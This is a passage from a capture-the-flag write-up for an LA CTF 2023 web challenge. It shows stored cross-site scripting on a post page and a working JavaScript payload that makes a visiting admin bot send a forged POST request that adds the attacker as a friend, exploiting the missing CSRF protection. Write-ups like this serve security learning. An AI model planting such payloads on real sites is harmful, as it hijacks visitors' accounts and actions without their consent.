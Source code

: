 **Now, let's try to inject some HTML code that'll execute JavaScript code, which will pop up an alert box:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211131902.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211131913.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211131919.png)

It worked in the `/post/<uuid>`!

Alright, let's take a step back.

In `/`, we can add a friend to metafriends. However, when we add someone to metafriend, we won't see him/her username and display name.

**To see that, he/she MUST add a friend to us!**

***Armed with above information, we can craft a payload that when the admin bot visit, it'll send a POST request to `/friend`, with parameter `username=<your_username>`. That way, we can see it's display name!!*** This can happen is because it doesn't have any CSRF protection!

**Payload:**
```html
<script>
    // Wait the window is fully loaded
    window.onload = function (){
        var username = 'siunam';

        // Construct the require POST parameters
        var data = 'username=' + encodeURIComponent(username);

        // Add our username to friend list upon visit
        fetch('https://metaverse.lac.tf/friend',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data,
                headers: {
                    "Content-Type": "application/x-www-form-urlencoded",
                }
            }
        )
    };
</script>
```

**Let's copy and paste that to the metapost, and create it!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211142751.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230211142804.png)

**Then, copy the URL, and send to the admin bot:**

